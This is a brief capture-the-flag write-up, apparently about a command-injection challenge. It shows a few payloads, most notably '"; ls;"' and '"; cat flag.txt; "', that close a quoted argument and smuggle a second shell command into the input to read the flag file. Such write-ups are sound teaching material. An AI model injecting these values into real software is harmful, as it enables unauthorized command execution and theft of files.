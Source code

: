 <div><h3>Command line security</h3><p>The hardest part is to determine that it is the <a href="https://www.owasp.org/index.php/Command_Injection">CLI injection</a>. Then we just try:</p>
<ul>
<li><code>ls</code> -- just man</li>
<li><code>; ls</code> -- no success</li>
<li>try to close <code>"</code>: <code>"; ls;"</code> -- sucess</li>
</ul>
<p>Now just enter <code>"; cat flag.txt; "</code></p></div>
